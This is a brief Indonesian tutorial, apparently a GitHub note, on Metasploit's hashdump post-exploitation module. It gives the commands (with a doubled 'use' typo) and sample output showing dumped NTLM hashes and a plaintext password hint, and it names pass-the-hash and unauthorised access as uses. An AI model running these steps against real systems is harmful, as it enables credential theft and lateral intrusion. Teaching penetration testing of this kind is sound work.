 # hashdump

Module `hashdump` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak `hash password` dari file `SAM` (Security Account Manager) pada komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (biasanya via meterpreter dengan hak SYSTEM) dan akan membaca isi `SAM` serta `SYSTEM registry hive` untuk memperoleh `hash NTLM` dari akun-akun lokal, sehingga berguna untuk serangan lanjutan seperti pass-the-hash, cracking password, atau akses tidak sah ke akun lain di jaringan.

## Cara Penggunaan di Metasploit

```
use use post/windows/gather/hashdump
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 719ee74fc86782fded26e05e9802b0c9...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

admin:"10101010"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98:::
loginbang:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


[*] Post module execution completed
```
